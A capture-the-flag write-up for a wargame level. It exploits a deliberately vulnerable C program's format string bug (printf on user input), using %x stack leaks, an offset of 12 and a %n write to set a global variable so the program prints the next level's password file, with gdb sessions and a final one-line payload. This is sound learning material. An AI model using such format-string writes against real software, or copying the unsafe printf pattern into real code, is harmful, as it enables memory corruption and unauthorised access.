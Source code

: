 # Level 4

Same process situation as before, except that now the printf is in another function and the value to set is **16930116**. And this time, he will directly print the result in the console, no shell.

```c
void p(char *format) {
  printf(format);
}

int m;

void n(void) {
  char buffer[520];
  
  fgets(buffer, 512, stdin);
  p(buffer);
  if (m == 16930116) {
    system("/bin/cat /home/user/level5/.pass");
  }
}
```

We the same method as before, the address of the variable "m" is **0x8049810**.

First we found the position of the buffer (AAAA is 41414141) and like before, accessing it make the program segfault.
```sh
$ ./level4 <<< $(python -c 'print "AAAA" + ".%08x" * 12')
AAAAA.b7ff26b0.bffff794.b7fd0ff4.00000000.00000000.bffff758.0804848d.bffff550.00000200.b7fd1ac0.b7ff37d0.41414141

$ ./level4 <<< $(python -c 'print "AAAAA" + "%12$s"')
Segmentation fault (core dumped)
```

Now let's edit the memory to set "m" to 16930116.
```sh
(gdb) run <<< $(python -c 'print("\x10\x98\x04\x08" + "%12$n")')
(gdb) x/d 0x8049810
0x8049810 <m>:  4
...
(gdb) run <<< $(python -c 'print("\x10\x98\x04\x08" + "%50x%12$n")')
(gdb) x/d 0x8049810
0x8049810 <m>:  54
...
(gdb) run <<< $(python -c 'print("\x10\x98\x04\x08" + "%16930112x%12$n")')
(gdb) x/d 0x8049810
0x8049810 <m>:  16930116
(gdb) c
Continuing.
/bin/cat: /home/user/level5/.pass: Permission denied
```

We are now entering in the condition executing the command and our final command will be:
```sh
$ python -c 'print("\x10\x98\x04\x08" + "%16930112x%12$n")' | ./level4
```

[Hacking - The Art of exploitation](https://www.amazon.fr/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441)